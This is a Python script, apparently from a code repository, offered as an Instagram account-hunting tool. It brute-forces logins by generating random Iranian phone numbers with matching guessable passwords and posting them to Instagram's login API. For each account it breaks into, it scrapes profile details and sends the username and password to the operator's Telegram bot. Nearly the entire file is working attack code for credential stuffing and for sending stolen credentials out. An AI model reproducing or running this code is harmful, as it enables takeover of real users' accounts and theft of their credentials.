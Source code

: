 # Cvvx
اداة صيد بمعلومات🦦
import webbrowser, random, requests, user_agent, json

from secrets import token_hex

import secrets, sys, uuid

from uuid import uuid4

from time import sleep

import webbrowser, time, webbrowser

E = '\x1b[1;31m'

G = '\x1b[1;32m'

S = '\x1b[1;33m'

Z = '\x1b[1;31m'

X = '\x1b[1;33m'

Z1 = '\x1b[2;31m'

F = '\x1b[2;32m'

A = '\x1b[2;39m'

C = '\x1b[2;35m'

B = '\x1b[2;36m'

Y = '\x1b[1;34m'

Z2 = '\x1b[1;31m'

X = '\x1b[1;33m'

Z1 = '\x1b[2;31m'

F = '\x1b[2;32m'

A = '\x1b[2;39m'

C = '\x1b[2;35m'

aa = 0

zz = 0

print(B + '_____________________________________________')

logo = ("""    _    _     _     

   / \  | |___| |__  

  / _ \ | / __| '_ \ 

 / ___ \| \__ \ | | |

/_/   \_\_|___/_| |_|""")

print(S+logo)

print(B + '_____________________________________________')

print(C + '\n⌯ 1  رقم صيد حلو  \n\n⌯ 2 رقم صيد قوي\n\n⌯ 3  رقم هم قوي  ')

print(F + '_____________________________________________')

Extra = input(B + '  ⌯ اختار رقم :  ')

extra2 = input(B + '  ⌯ توكن حب  :  ')

extra1 = input(B + '  ⌯ ايدي حب  : ')

print(F + '_____________________________________________')

import time

t = time.localtime()

current_time = time.strftime('%A:%b:%S', t)

start_msg = requests.post(f"https://api.telegram.org/bot{extra2}/sendMessage?chat_id={extra1}&text= سني تاج راسك⚔️").json()

id_msg = start_msg['result']['message_id']

def code_EXTRA(userI, password):

    cookie = secrets.token_hex(5) * 2

    head = {'HOST':'www.instagram.com',  'KeepAlive':'True', 

     'user-agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36', 

     'Cookie':'cookie', 

     'Accept':'*/*', 

     'ContentType':'application/x-www-form-urlencoded', 

     'X-Requested-With':'XMLHttpRequest', 

     'X-IG-App-ID':'936619743392459', 

     'X-Instagram-AJAX':'missing', 

     'X-CSRFToken':'missing', 

     'Accept-Language':'en-US,en;q=0.9'}

    url_id = f"https://www.instagram.com/{userI}/?__a=1"

    req_id = requests.get(url_id, headers=head).json()

    name = str(req_id['graphql']['user']['full_name'])

    id = str(req_id['graphql']['user']['id'])

    followes = str(req_id['graphql']['user']['edge_followed_by']['count'])

    following = str(req_id['graphql']['user']['edge_follow']['count'])

    isp = str(req_id['graphql']['user']['is_private'])

    idd = str(req_id['graphql']['user']['id'])

    re = requests.get(f"https://o7aa.pythonanywhere.com/?id={id}")

    ree = re.json()

    dat = ree['data']

    eXtra = B + f"\n\nتعال جبتلك ايراني 💊: \n____________________\n⌯ الاسمسم🤤 : {name} .\n⌯ اليوزر🎭 : {userI} .\n⌯ الباسورد📌 : {password} .\n⌯ المتابعين✔️ : {followes} .\n⌯ الي متابعهم🔴 : {following} .\n⌯ انشاء🙄 : {dat} .\n_____________________\n علش(@gftali)\n "

    tlg = f"https://api.telegram.org/bot{extra2}/sendMessage?chat_id={extra1}&text={eXtra}"

    i = requests.post(tlg)

    print(G + eXtra)

url = 'https://i.instagram.com/api/v1/accounts/login/'

headers = {'User-Agent':'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Y6 2019 pream; angler; angler; en_US)',  'Accept':'*/*', 

 'Cookie':'missing', 

 'Accept-Encoding':'gzip, deflate', 

 'Accept-Language':'en-US', 

 'X-IG-Capabilities':'3brTvw==', 

 'X-IG-Connection-Type':'WIFI', 

 'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 

 'Host':'i.instagram.com'}

user = '9087654321'

while True:

    if Extra == '1':

        us = str(''.join((random.choice(user) for i in range(6))))

        username = '+98937' + us

        password = '0937' + us

    if Extra == '2':

        us = str(''.join((random.choice(user) for i in range(5))))

        username = '+98936' + us

        password = '0936' + us

    if Extra == '3':

        us = str(''.join((random.choice(user) for i in range(5))))

        username = '+98914' + us

        password = '0914' + us

    uid = str(uuid4())

    data = {'uuid':uid,  'password':password, 

     'username':username, 

     'device_id':uid, 

     'from_reg':'false', 

     '_csrftoken':'missing', 

     'login_attempt_countn':'0'}

    req = requests.post(url, headers=headers, data=data)

    if 'logged_in_user' in req.json():

        zz += 1

        userQ = req.json()['logged_in_user']['username']

        code_EXTRA(userQ, password)

    elif '"message":"challenge_required","challenge"' in req.json():

        print(S + 'username : ' + username + ': password : ' + password)

    else:

        requests.post(f"https://api.telegram.org/bot{extra2}/editmessagetext?chat_id={extra1}&message_id={id_msg}&text=⌯  JHENM  : .\n .  . \n ⌯ حساب شغال [{zz}]\n                        \n⌯ حساب مو شغال [{aa}] \n.  .\n⌯ Ch : @gftali  ")

        print(E + 'username : ' + username + ': password : ' + password)

        aa += 1

